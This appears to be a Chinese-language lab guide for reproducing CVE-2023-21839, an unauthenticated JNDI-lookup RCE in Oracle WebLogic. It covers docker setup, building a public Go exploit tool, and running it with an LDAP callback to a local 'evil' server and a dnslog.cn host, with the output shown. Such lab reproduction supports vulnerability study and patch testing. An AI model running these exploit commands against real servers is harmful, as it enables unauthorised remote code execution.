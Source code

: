 # Weblogic未授权远程代码执行漏洞 (CVE-2023-21839)

Oracle WebLogic Server是业界领先的应用程序服务器，用于使用Java EE标准构建企业应用程序，并以低拥有成本将其部署在可靠、可扩展的运行时。

在 [Oracle 2023年1月安全公告日](https://www.oracle.com/security-alerts/cpujan2023.html) 修复了这个漏洞。

CVE-2023-21839 允许远程用户在未经授权的情况下通过 IIOP/T3 进行 JNDI lookup 操作，当 JDK 版本过低或本地存在小工具（javaSerializedData）时，这可能会导致 RCE 漏洞

参考:

- https://www.oracle.com/security-alerts/cpujan2023.html

## 环境设置

执行以下命令启动 Weblogic server 12.2.1.3

```
docker compose up -d
```

启动完成后访问`http://your-ip:7001/console`可以看到管理界面

## 复现

https://github.com/4ra1n/CVE-2023-21839

```shell
cd cmd
go build -o CVE-2023-21839
./CVE-2023-21839 -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

Windows

```shell
cd cmd
go build -o CVE-2023-21839.exe
CVE-2023-21839.exe -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

DNS Log

```shell
CVE-2023-21839.exe -ip 192.168.25.129 -port 7001 -ldap ldap://kmi896.dnslog.cn/test
[*] your-ip: 192.168.25.129
[*] your-port: 7001
[*] your-ldap: ldap://kmi896.dnslog.cn/test
[*] weblogic 12
[*] id=2 LocateRequest
[*] id=3 RebindRequest
[*] id=4 RebindRequest
[*] id=5 LocateRequest
[*] id=6 ResolveRequest
[*] id=7 ResolveRequest
```

![](1.png)
